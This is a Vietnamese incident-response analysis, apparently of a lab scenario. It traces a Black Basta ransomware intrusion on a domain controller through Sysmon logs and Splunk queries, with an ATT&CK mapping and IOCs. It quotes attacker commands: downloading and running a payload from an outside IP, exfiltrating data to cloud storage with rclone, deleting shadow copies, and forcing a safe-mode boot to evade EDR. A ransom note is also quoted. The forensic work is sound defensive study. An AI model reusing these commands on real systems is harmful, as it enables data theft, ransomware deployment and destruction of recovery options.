2025-03-21 16:35:06  SYSTEM   System  0x3e7       │   └── [6532] curl  -o "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" https://downloads.rclone.org/v1.69.1/rclone-v1.69.1-windows-amd64.zip
2025-03-21 16:36:07  SYSTEM   System  0x3e7       ├── [224] C:\Windows\system32\cmd.exe /C powershell Expand-Archive -LiteralPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip' -DestinationPath C:\Users\swhite\AppData\Local\Temp
2025-03-21 16:36:07  SYSTEM   System  0x3e7       │   └── [6552] powershell  Expand-Archive -LiteralPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip' -DestinationPath C:\Users\swhite\AppData\Local\Temp
2025-03-21 16:37:10  SYSTEM   System  0x3e7       ├── [3448] C:\Windows\system32\cmd.exe /C powershell Expand-Archive -LiteralPath "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" -DestinationPath "C:\Users\swhite\AppData\Local\Temp"
2025-03-21 16:37:10  SYSTEM   System  0x3e7       │   └── [6628] powershell  Expand-Archive -LiteralPath "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" -DestinationPath "C:\Users\swhite\AppData\Local\Temp"
2025-03-21 16:41:15  SYSTEM   System  0x3e7       ├── [5988] C:\Windows\system32\cmd.exe /C powershell Compress-Archive -Path "C:\clients" -DestinationPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64\data.zip" -Force
2025-03-21 16:41:15  SYSTEM   System  0x3e7       │   └── [6932] powershell  Compress-Archive -Path "C:\clients" -DestinationPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64\data.zip" -Force
2025-03-21 16:42:18  SYSTEM   System  0x3e7       ├── [4288] C:\Windows\system32\cmd.exe /C rclone copy data.zip mega:data
2025-03-21 16:42:18  SYSTEM   System  0x3e7       │   └── [2996] rclone  copy data.zip mega:data
2025-03-21 16:45:19  SYSTEM   System  0x3e7       ├── [5972] C:\Windows\system32\cmd.exe /C bcdedit.exe /set safeboot network
2025-03-21 16:45:19  SYSTEM   System  0x3e7       │   └── [6388] bcdedit.exe  /set safeboot network
2025-03-21 16:47:19  SYSTEM   System  0x3e7       ├── [6916] C:\Windows\system32\cmd.exe /C curl -o "C:\Users\swhite\AppData\Local\Temp\6as98v.exe" http://54.93.105.22/6as98v.exe
2025-03-21 16:47:19  SYSTEM   System  0x3e7       │   └── [6524] curl  -o "C:\Users\swhite\AppData\Local\Temp\6as98v.exe" http://54.93.105.22/6as98v.exe
2025-03-21 16:49:19  SYSTEM   System  0x3e7       ├── [6032] C:\Windows\system32\cmd.exe /C cmd /c 6as98v.exe
2025-03-21 16:49:19  SYSTEM   System  0x3e7       │   └── [4752] cmd  /c 6as98v.exe
2025-03-21 16:49:19  SYSTEM   System  0x3e7       │       └── [5792] 6as98v.exe
2025-03-21 16:49:19  SYSTEM   System  0x3e7       │           ├── [4356] C:\Windows\system32\cmd.exe /c C:\Windows\SysNative\vssadmin.exe delete shadows /all /quiet
2025-03-21 16:49:19  SYSTEM   System  0x3e7       │           │   └── [3380] C:\Windows\SysNative\vssadmin.exe  delete shadows /all /quiet
2025-03-21 16:49:20  SYSTEM   System  0x3e7       │           └── [5724] C:\Windows\system32\cmd.exe /c C:\Windows\System32\vssadmin.exe delete shadows /all /quiet
2025-03-21 16:49:20  SYSTEM   System  0x3e7       │               └── [6640] C:\Windows\System32\vssadmin.exe  delete shadows /all /quiet
2025-03-21 16:53:30  SYSTEM   System  0x3e7       └── [6532] C:\Windows\system32\cmd.exe /C cmd /c powershell Remove-Item -Path "C:\Users\swhite\Appdata\Local\Temp\*" -Recurse -Force
2025-03-21 16:53:30  SYSTEM   System  0x3e7           └── [6664] cmd  /c powershell Remove-Item -Path "C:\Users\swhite\Appdata\Local\Temp\*" -Recurse -Force
2025-03-21 16:53:30  SYSTEM   System  0x3e7               └── [5708] powershell  Remove-Item -Path "C:\Users\swhite\Appdata\Local\Temp\*" -Recurse -Force

                                                  [2004] C:\Windows\explorer.exe
2025-03-21 16:37:57  swhite   Medium  0x107346c   ├── [8] "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64\rclone.exe"
2025-03-21 16:38:07  swhite   Medium  0x107346c   ├── [4116] "C:\Windows\System32\cmd.exe"
2025-03-21 16:38:09  swhite   Medium  0x107346c   │   ├── [6288] rclone
2025-03-21 16:38:15  swhite   Medium  0x107346c   │   └── [2244] rclone  config
2025-03-21 16:42:40  swhite   Medium  0x107346c   ├── [5788] "C:\Windows\System32\cmd.exe"
2025-03-21 16:42:42  swhite   Medium  0x107346c   │   ├── [1660] rclone  copy data.zip mega:data
2025-03-21 16:43:29  swhite   Medium  0x107346c   │   └── [4556] rclone  copy data.zip mega:data --verbose
2025-03-21 16:49:34  swhite   Medium  0x107346c   ├── [100] "C:\Windows\system32\taskmgr.exe" /4
2025-03-21 16:49:45  swhite   High    0x1073366   └── [6292] "C:\Windows\system32\taskmgr.exe" /4
```

**Từ 2025-03-21 16:06:43 đến trước 2025-03-21 16:12:04:**
- Vào 2025-03-21 16:06:43, attacker thành công khởi chạy lệnh whoami trên DC01 dưới danh tính của user swhite thông qua psexec. Tuy nhiên, vào 2025-03-21 16:08:31, sysmon event id 1 chưa ghi nhận lệnh hostname được khởi chạy dù trước đó trên WS1 ta đã thấy attacker thành công dùng psexec thực thi lệnh yêu cầu khởi chạy hostname trên DC01.


**Từ 2025-03-21 16:12:04 đến 2025-03-21 16:37:10:**
- Attacker thành công copy sang và thực thi Pancake.jpg.exe trên DC01 dưới danh tính NT AUTHORITY\system, process Pancake.jpg.exe (4520) spawn ra các process con sau:

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2025-03-21 16:12:04 | cmd.exe /C whoami | Kiểm tra user hiện tại
| 2025-03-21 16:35:06 | cmd.exe /C curl -o "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" https://downloads.rclone.org/v1.69.1/rclone-v1.69.1-windows-amd64.zip | Tải rclone về máy và đặt vào thư mục Temp trong profile user swhite
| 2025-03-21 16:36:07 | cmd.exe /C powershell Expand-Archive -LiteralPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip' -DestinationPath C:\Users\swhite\AppData\Local\Temp | Giải nén thư mục vừa tải nhưng fail do thừa dấu backtick ở file path
| 2025-03-21 16:37:10 | cmd.exe /C powershell Expand-Archive -LiteralPath "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" -DestinationPath "C:\Users\swhite\AppData\Local\Temp" | Thử lại, đặt path tới tệp zip vào trong double quote, lần này thành công

**Từ 2025-03-21 16:37:57 đến 2025-03-21 16:45:19:**

Attacker chuyển sang phiên RDP của user swhite trên DC01 (login ID = 0x107346c), sau đó vào 2025-03-21 16:37:57, hắn chạy rclone.exe vừa tải về trong Temp thông qua GUI (parent là explorer.exe), tuy nhiên, vì rclone là một công cụ commandline nên sau đó vào 2025-03-21 16:38:07 hắn khởi chạy chạy rclone (2025-03-21 16:38:09) qua cmd. Tiếp đó, vào 2025-03-21 16:38:15, hắn chạy lệnh ‘rclone config’ nhằm thiết lập và quản lý cấu hình kết nối giữa rclone và các dịch vụ lưu trữ. 

Giả thuyết: attacker dùng credential của swhite để RDP vào DC01 thực thi rclone thay vì qua psexec vì rclone config là lệnh hỏi đáp từng bước và cần nhập input liên tục. Các lệnh trước đó được đẩy qua PsExec từ beacon bằng cmd /C nên không có stdin tương tác, và lệnh sẽ treo ở câu hỏi đầu tiên. Có thể đây là lí do chính attacker thực hiện truy cập vào DC01 qua RDP để chạy rclone config bằng tay. 

Vào 2025-03-21 16:41:15, attacker gửi lệnh: “powershell Compress-Archive -Path "C:\clients" -DestinationPath C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64\data.zip" -Force” đến beacon Pancake.jpg.exe nhằm nén toàn bộ dữ liệu trong thư mục C:\clients rồi đẩy output ra tệp data.zip nằm trong thư mục của package rclone vừa tải. Sau đó vào  2025-03-21 16:42:18, hắn gửi lệnh “rclone copy data.zip mega:data” cho beacon Pancake.jpg.exe nhằm tuồn dữ liệu lên mega cloud.

Tuy nhiên, từ 2025-03-21 16:42:40 đến 2025-03-21 16:43:29, attacker chuyển sang phiên RDP của swhite trên DC01 thực thi lệnh “rclone copy data.zip mega:data”, sau đó 47 giây, thực thi lại và thêm cờ --verbose: “rclone copy data.zip mega:data --verbose”. Các lệnh rclone copy data.zip mega:data được chạy lại ngay dưới swhite nhiều khả năng là do tệp cấu hình rclone.conf được tạo trong profile của swhite, còn process chạy qua psexec dùng profile SYSTEM chưa chạy ‘rclone config’ nên không thấy thông tin để truy cập trong tệp .conf ở user profile cho SYSTEM.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" earliest="03/21/2025:16:37:57" latest="03/21/2025:16:45:19" EventCode IN (3, 5, 22, 11) process_id IN (2244,2996,1660,4556) OR TargetFilename="*rclone.conf*"
| table _time EventCode process_id User Image TargetFilename QueryName DestinationIp DestinationPort
| sort _time
```

Chỉ ghi nhận 2 process rclone (1660 và 4556) chạy dưới user swhite mới thành công phân giải dns domain của mega và kết nối với IP tương ứng 


**Từ 2025-03-21 16:45:19 đến 2025-03-21 16:49:20:**


Beacon nhận và khởi chạy các lệnh sau trên DC01:
| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2025-03-21 16:45:19 | cmd.exe /C bcdedit.exe /set safeboot network | bcdedit.exe (Boot Configuration Data Editor) là một công cụ dòng lệnh tích hợp sẵn trong hệ điều hành Windows, dùng để quản lý, tạo, chỉnh sửa và xóa kho dữ liệu cấu hình khởi động (BCD - Boot Configuration Data), nói cách khác, công cụ này kiểm soát cách window boots. Ở lệnh này, attacker thiết lập giá trị safeboot và network, trong lần reboot tiếp theo, windows sẽ khởi động trong chế độ Safe mode có kết nối mạng. Chế độ Safeboot với network nạp 1 tập drivers và services tối thiếu cùng với network stack. Thiết lập này duy trì cho tới khi bị loại bỏ qua lệnh: bcdedit /deletevalue {current} safeboot (yêu cầu quyền admin). Attacker lạm dụng điều này vì hầu hết các sản phẩm bảo mật của bên thứ ba như EDR không khởi động sau khi window boot vào safe mode
| 2025-03-21 16:47:19 | cmd.exe /C curl -o "C:\Users\swhite\AppData\Local\Temp\6as98v.exe" http://54.93.105.22/6as98v.exe | Tải binary 6as98v.exe về từ url http://54.93.105.22/6as98v.exe rồi đặt trong thư mục Temp
| 2025-03-21 16:49:19 | cmd.exe /C cmd /c 6as98v.exe | Thực thi 6as98v.exe

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=DC01 earliest="03/21/2025:16:00:00" 6as98v.exe EventCode=29
| table _time TargetFilename Hashes
```



Hash của 6as98v.exe:
	- MD5=998022B70D83C6DE68E5BDF94E0F8D71
	- SHA256=7883F01096DB9BCF090C2317749B6873036C27BA92451B212B8645770E1F0B8A
Virustotal:

Kết quả từ virustotal cho thấy đây là 1 ransomware black basta


```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=DC01 earliest="03/21/2025:16:49:19" process_id=5792 EventCode=5
| table _time process_path process_id
```

Ransomware kết thúc vào 2025-03-21 16:52:14, khoảng gần 3 phút sau khi thực thi


Ransomware spawn ra 2 process xóa volume shadow copy nhằm cản trở quá trình khôi phục dữ liệu:
2025-03-21 16:49:19: cmd.exe /c C:\Windows\SysNative\vssadmin.exe delete shadows /all /quiet
2025-03-21 16:49:20: cmd.exe /c C:\Windows\System32\vssadmin.exe delete shadows /all /quiet



Vào 2025-03-21 16:49:34, attacker khởi chạy taskmgr.exe với quyền quản trị trong phiên RDP trên DC01. Mục đích có thể là để kiểm tra hoạt động của ransomware.


Vào 2025-03-21 16:53:30, gửi lệnh “powershell  Remove-Item -Path "C:\Users\swhite\Appdata\Local\Temp\*" -Recurse -Force” cho beacon Pancake.jpg.exe nhằm xóa dấu vết. Trước đó vào lúc 2025-03-21 16:52:52, câu lệnh tương tự cũng đã được thực thi trên WS1.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=DC01 earliest="03/21/2025:16:49:19" EventCode=11
| table _time TargetFilename
```


Ransomware copy ransom note ra nhiều thư mục khác nhau trong hệ thống

Ransom note:
```spl
sourcetype=misc_text
```

```
Your data are stolen and encrypted
The data will be published on TOR website if you do not pay the ransom
You can contact us and decrypt one file for free on this TOR site
(you should download and install TOR browser first https://torproject.org)
https://aazsbsgya565vlu2c6bzy6yfiebkcbtvvcytvolt33s77xypi7nypxyd.onion:80/
Your company id for log in: ba7a7058-3531-4b67-bae6-d602e9110361
```



```spl
index=main "998022B70D83C6DE68E5BDF94E0F8D71" OR "7883F01096DB9BCF090C2317749B6873036C27BA92451B212B8645770E1F0B8A" OR 6as98v.exe
| stats count by host
```

Chỉ ghi nhận hoạt động của ransomware trên DC01. Log process trước đó trên WS1 cũng không cho thấy process ransomware nào.
#### Phiên RDP của user swhite 

```spl
index=main host=DC01 0x107346c OR 0x1073366
| stats count by EventCode, source
```


```spl
index=main host=DC01 0x107346c OR 0x1073366 EventCode=4624
| table _time IpAddress AuthenticationPackageName Logon_Type TargetLogonId TargetLinkedLogonId TargetUserName TargetUserSid
```


```spl
index=main host=DC01 0x107346c OR 0x1073366 EventCode=4672
| table _time SubjectUserName SubjectUserSid SubjectLogonId PrivilegeList
```

User swhite đăng nhập RDP (LogonType 10) vào DC01 lúc 14:17:00 (trước thời điểm Initial Access) từ IP 10.10.6.159, event id 4672 cho thấy user swhite được gán các privilege nâng cao, tức user swhite là một người dùng quản trị. Logon ID được cung cấp cho ta biết phiên này được duy trì cho tới khi các hành động đáng ngờ diễn ra trên DC01. 

## Host 3: ITWS (10.10.11.199)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" earliest="03/21/2025:14:00:00" host=ITWS EventCode=1
| table _time user IntegrityLevel LogonId LogonGuid parent_process_id parent_process_path process_id CommandLine
| sort _time
```

Không ghi nhận process đáng ngờ nào trên ITWS từ khoảng thời gian xảy ra sự cố trở đi

# Timeline
# MITRE ATT&CK
| Tactic | Technique | Bằng chứng |
|---|---|---|
| Initial access | T1566.001 - Phishing: Spearphishing Attachment | Theo mô tả tình huống, một nhân viên tài chính bị lừa tải một tệp ZIP chứa tài liệu; quá trình điều tra cho thấy tệp được tải là `Financial Records.zip` |
| Execution | T1204.002 - User Execution: Malicious File | User mở tệp `Financial Records.xlsm` trong tệp ZIP |
| Execution | T1059 - Command and Scripting Interpreter | `F6w1S48.vbs` thực thi qua `wscript.exe` |
| Execution | T1059.001 - Command and Scripting Interpreter: PowerShell | `powershell` |
| Execution | T1059.003 - Command and Scripting Interpreter: Windows Command Shell | `cmd.exe` |
| Execution | T1569.002 - System Services: Service Execution | PsExec tạo service `PSEXESVC.exe` trên DC01 |
| Persistence | T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder | Run key `WindowsUpdater` |
| Persistence | T1053.005 - Scheduled Task/Job: Scheduled Task | Scheduled task `WiindowsUpdate` |
| Privilege Escalation | T1078.002 - Valid Accounts: Domain Accounts | `knixon`, `swhite` |
| Stealth | T1027.010 - Obfuscated Files or Information: Command Obfuscation | PowerShell `-EncodedCommand` |
| Stealth | T1036.004 - Masquerading: Masquerade Task or Service | `WiindowsUpdate`, `WindowsUpdater` |
| Stealth | T1218.010 - System Binary Proxy Execution: Regsvr32 | `regsvr32.exe /s C:\Users\knixon\AppData\Local\Temp\WindowsUpdaterFX.dll` |
| Stealth | T1036.007 - Masquerading: Double File Extension | `Pancake.jpg.exe` |
| Stealth | T1218.011 - System Binary Proxy Execution: Rundll32 | Beacon spawn `rundll32.exe` (binary hợp lệ của Windows) |
| Stealth | T1070.004 - Indicator Removal: File Deletion | PowerShell `Remove-Item` toàn bộ item trong thư mục Temp trên cả WS1 và DC01 |
| Defense Impairment | T1688 - Safe Mode Boot | `bcdedit /set safeboot network` |
| Defense Impairment | T1685 - Disable or Modify Tools | `Add-MpPreference -ExclusionPath` |
| Credential Access | T1003.001 - OS Credential Dumping: LSASS Memory | Beacon `rundll32.exe` truy cập `lsass.exe` |
| Discovery | T1033 - System Owner/User Discovery | `whoami` |
| Discovery | T1016 - System Network Configuration Discovery | `ipconfig /all` |
| Discovery | T1082 - System Information Discovery | `systeminfo` |
| Discovery | T1087.001 - Account Discovery: Local Account | `net localgroup administrators` |
| Discovery | T1087.002 - Account Discovery: Domain Account | `net group "domain admins" /domain` |
| Discovery | T1018 - Remote System Discovery | `netscan.exe /hide /range:10.10.11.1-10.10.255.255 /auto:results.xml` |
| Lateral Movement | T1021.001 - Remote Services: Remote Desktop Protocol | Phiên RDP của `swhite` |
| Lateral Movement | T1570 - Lateral Tool Transfer | Dùng PsExec copy `Pancake.jpg.exe` sang DC01 |
| Lateral Movement | T1021.002 - Remote Services: SMB/Windows Admin Shares | PsExec drop `PSEXESVC.exe` trong `ADMIN$` |
| Command and Control | T1071.001 - Application Layer Protocol: Web Protocols | Beacon tới `54.93.105.22:80` |
| Command and Control | T1105 - Ingress Tool Transfer | Dùng `bitsadmin`, `curl` tải về Netscan, PsExec, rclone và ransomware |
| Collection | T1560.001 - Archive Collected Data: Archive via Utility | PowerShell `Compress-Archive -Path "C:\clients"` |
| Exfiltration | T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage | `rclone copy data.zip mega:data` |
| Impact | T1490 - Inhibit System Recovery | `vssadmin delete shadows /all /quiet` |
| Impact | T1486 - Data Encrypted for Impact | Ransomware Black Basta |
# IOC
| Loại | Giá trị |
|---|---|
| IP | `54.93.105.22`, `10.10.6.159` |
| URL | `http://54.93.105.22/Financial%20Records.zip`, `http://54.93.105.22/F6w1S48.vbs`, `http://54.93.105.22/6as98v.exe` |
| Domain | `softperfect.com`, `downloads.rclone.org`, `*.mega.co.nz` |
| Pipe | `MSSE-8859-server`, `MSSE-5028-server`, `postex_2198` |
| Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater`, scheduled task `WiindowsUpdate` |
| `Financial Records.xlsm` | MD5 `1157A1B4C47091B7020143D00B5D2860`, SHA256 `030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15` |
| `WindowsUpdaterFX.dll` | MD5 `735AB5713DB79516CF350265FA7574E5`, SHA256 `9A02357D3091379C4A9568F6427C45554E48DAA910CF2F7BD871A9CF7F7B2CB4` |
| `Pancake.jpg.exe` | SHA1 `3AB69BA2901828CB4FE892976F4808DB0E4EF2A1`, MD5 `5C215C4E29C8EC7FE1590517319C6ECA`, SHA256 `0BEF3A121BC1CADD69B27784616D1E112ADE2A82F961272EDDF7F7641A80CE15` |
| `PsExec64.exe` | SHA256 `AD6B98C01EE849874E4B4502C3D7853196F6044240D3271E4AB3FC6E3C08E9A4` |
| `6as98v.exe` (Black Basta) | MD5 `998022B70D83C6DE68E5BDF94E0F8D71`, SHA1 `B87A947F3E85701FCDADD733E9B055A65A3B1308`, SHA256 `7883F01096DB9BCF090C2317749B6873036C27BA92451B212B8645770E1F0B8A` |
| Ransom note | `readme.txt` |
| Tài khoản | `knixon`, `swhite` |


